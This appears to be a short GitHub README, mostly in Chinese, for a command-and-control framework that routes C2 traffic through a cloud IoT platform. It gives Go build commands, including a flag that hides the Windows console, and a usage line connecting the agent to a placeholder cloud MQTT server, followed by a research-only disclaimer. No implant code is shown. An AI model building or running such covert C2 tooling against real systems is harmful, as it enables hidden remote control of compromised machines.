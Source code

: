 # hw-iot-c2
一款利用某云厂商的物联网平台作为c2的框架

make:
```go
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w -H=windowsgui"  -o hw-iot-c2.exe .
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w"  -o hw-iot-c2 .
```

use:
```
hw-iot-c2.exe -id xxx_xx -pass xxxxxxxx -server tls://xxx.xxx.myhuaweicloud.com:8883
```

原文：

![image](https://github.com/UltimateSec/ultimaste-nuclei-templates/blob/main/qrcode.jpg)

# 免责声明：
本文章或工具仅供安全研究使用，请勿利用从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，极致攻防实验室及作者不为此承担任何责任。

